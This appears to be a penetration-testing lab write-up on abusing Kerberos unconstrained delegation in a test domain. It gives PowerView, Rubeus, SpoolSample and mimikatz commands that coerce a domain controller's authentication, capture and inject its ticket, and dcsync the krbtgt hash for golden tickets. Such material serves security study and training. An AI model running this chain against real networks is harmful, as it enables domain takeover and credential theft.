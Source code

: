 **THEORY:**

The DC stores the information about computers configured with unconstrained delegation. This information is available to all domain authenticated users. The information is stored in the [useraccountcontrol](https://learn.microsoft.com/en-US/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties) property as "TRUSTED_FOR_DELEGATION"(represented in its numerical value 524288).

The *useraccountcontrol* property can also be set to a service account rather than a machine account. This can occur if the application is running in the context of the service account.

**IMPORTANT NOTE:** ALL THIS HAVE TO BE PERFORMED FROM A POWERSHELL SESSION

In this lab, the APPSRV01 computer is configured with unconstrained delegation. It has the *useraccountcontrol* property set to "TRUSTED_FOR_DELEGATION". 

1st Enumeration with PowerView
	
 ```Get-DomainComputer -Unconstrained```

2nd Monitoring with Rubeus for a TGT of the CDC01$ computer account
	
```Rubeus.exe monitor /interval:5 /filteruser:CDC01$```

3rd Coerce authentication with SpoolSample of CDC01 to APPSRV01
	
 ```SpoolSample.exe CDC01 APPSRV01```

 (We recieve a TGT using SpoolSample because APPSRV01 is configured with unconstrained delegation, otherwise we would only recieve the CDC01 access token. Which unless we have the "SeImpersonatePrivilege" we cannot use to spawn a new process.)
	
4th The import the recieved TGT with Rubeus
	
 ```Rubeus.exe ptt /ticket:doIFIjCCBR6gAwIBBaEDAgEWo...```

5th(mimikatz) Since CDC01$ is not a local administrator account on the domain controller we cannot perform direct lateral movement. Instead we will perform dcsync(since APPSRV01 has domain replication permissions) to dump the krbtgt NTLM hash to create golden tikcets
	
 ```lsadump::dcsync /domain:contoso.com /user:contoso\krbtgt```
